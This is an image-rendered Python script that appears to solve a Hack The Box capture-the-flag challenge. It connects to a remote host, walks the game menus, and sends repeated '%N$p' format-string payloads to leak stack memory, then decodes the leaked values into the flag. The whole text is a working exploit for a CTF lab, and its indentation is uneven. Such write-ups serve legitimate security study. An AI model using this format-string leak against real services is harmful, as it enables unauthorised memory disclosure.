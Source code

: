 ```python

			host = "167.172.54.11"
			port = 30988

			s = remote(host, port)

		# insert name
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")

		# insert nickname
		print(s.recvuntil(b": ").decode())
		s.sendline(b"abc")

		# first selection to choose the car
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"2")

		# second selection to choose which car to use
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"2")

		# third selection to choose "highway battle"
		print(s.recvuntil(b"> ").decode())
		s.sendline(b"1")

		# abuse the format string vulnerability by sending "%p"
		print(s.recvuntil(b"> ").decode())
		log.info(f"Sending `%{count}$p`".encode())
		s.sendline(f"%{count}$p".encode())

		# receive the line before the quote
		print(s.recvline().decode())

		# receive the quote line
		print(s.recvline().decode())

		result = s.recvline().decode()
		print(f"result = {result}")

		# check if the hex parts is inside the flag format
		# Local: flag{.*}
		# Remote: HTB{.*}
		if prefix_flag_format in result:
			is_within_flag_format = True
		elif suffix_flag_format in result:
			suffix_is_found = True

		# if the address is within the flag format,
		# it will be appended to the flags variable
		if is_within_flag_format:
			flags.append(result.lstrip("0x").rstrip("\n"))

		count += 1

		s.close()

	# convert from hexadecimal to ASCII
	for flag in flags:
		final_result += p32(int(flag, base=16)).decode()

	print(final_result)

```